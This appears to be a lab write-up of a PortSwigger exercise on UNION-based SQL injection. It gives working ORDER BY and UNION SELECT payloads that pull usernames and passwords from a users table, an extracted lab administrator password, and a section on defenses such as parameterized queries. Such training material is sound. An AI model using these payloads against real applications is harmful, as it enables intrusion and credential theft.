

**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Background

UNION-based SQL injection allows attackers to append a `UNION SELECT` statement to the original query, retrieving data from other tables in the database. This vulnerability occurs when user input is concatenated directly into SQL queries without proper sanitization or parameterization. For the attack to succeed, the injected query must return the same number of columns as the original query, with compatible data types.

---

## My Approach

### Step 1: Determine the Number of Columns

First, I used the `ORDER BY` technique from [Lab 7](7.%20SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md) to find the column count:

```
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+1--
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+2--
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+3--
```

The application accepted `ORDER BY 2` but returned an error on `ORDER BY 3`, confirming the query returns **2 columns**.

### Step 2: Extract Credentials from Users Table

Unlike Labs 5 & 6, this lab provides the table name (`users`) and column names (`username`, `password`) in the objective. This makes the attack straightforward:

```sql
' UNION SELECT username, password FROM users--
```

The injection returned all usernames and passwords from the `users` table, including:
- **Username:** `administrator`
- **Password:** `pc9ccb2cluvlsmkcip7n`



### Step 3: Log In

I navigated to **My Account** and logged in with the extracted credentials to solve the lab.

---

## Payload Used

### Payload 1: Column Count Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+3--
```

### Payload 2: Credential Extraction (Final)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+username,+password+FROM+users--
```

**Decoded for clarity:**
```
category=Gifts' UNION SELECT username, password FROM users--
```

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

After injection, it became:

```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--' AND released = 1
```

### Breakdown

| Component | Purpose |
|-----------|---------|
| `'` | Closes the original string parameter in the `WHERE` clause |
| `UNION SELECT username, password` | Appends a second query retrieving credentials from the `users` table |
| `FROM users` | Specifies the target table containing user credentials |
| `--` | SQL comment sequence that neutralizes the rest of the original query |

The attack succeeded because:

1. **Column count matched** (2 columns confirmed via `ORDER BY`)
2. **Data types were compatible** (`username` and `password` are both string types, matching the original query's columns)
3. **Table and column names known** (provided in the lab objective—in real scenarios, you'd need to enumerate these using `information_schema` or Oracle's `all_tables`)
4. **Results displayed in response** (the application shows query results, allowing extracted data to be visible)

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders instead of concatenating user input |
| **Least Privilege** | Database accounts should only have access to required tables |
| **Input Validation** | Validate and sanitize all user input |
| **Web Application Firewall (WAF)** | Deploy a WAF to detect and block SQL injection patterns |

---

## Key Takeaway

> This lab demonstrates a direct UNION-based credential extraction attack when table and column names are known. In real-world scenarios, you would need to enumerate this metadata first (as in Labs 5 & 6). Always use **parameterized queries** and follow the principle of least privilege to prevent attackers from accessing sensitive tables like `users`. Remember: never trust user input, and defense in depth is essential.
